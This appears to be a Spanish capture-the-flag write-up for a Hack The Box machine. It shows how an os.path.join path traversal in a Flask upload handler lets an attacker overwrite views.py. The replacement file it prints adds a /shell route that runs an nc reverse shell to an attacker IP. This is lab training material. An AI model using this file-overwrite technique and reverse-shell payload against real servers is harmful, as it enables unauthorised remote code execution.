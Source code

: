 Por esa parte nos han capado, sin embargo en la siguiente línea está: `file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)`, que esto puede dar un problema muy grave:

```bash wrap=false
❯ python
Python 3.13.7 (main, Aug 20 2025, 22:17:40) [GCC 14.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.path.join(os.getcwd(), "public", "uploads", "zelpro.txt")
... 
'/home/zelpro/HTB/OpenSource/content/source/app/app/public/uploads/zelpro.txt'
>>> os.path.join(os.getcwd(), "public", "uploads", "/zelpro.txt")
'/zelpro.txt'
```

## Explotación

### Replacing views.py

Si ponemos una `/` en el nombre se salta el resto de la ruta. Sabiendo que estamos en `/app/app/` podríamos sustituir el `views.py` por este:

```python wrap=false title='views.py (MODIFIED)'
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

@app.route('/shell')
def cmd():
    return os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4444 >/tmp/f")
```
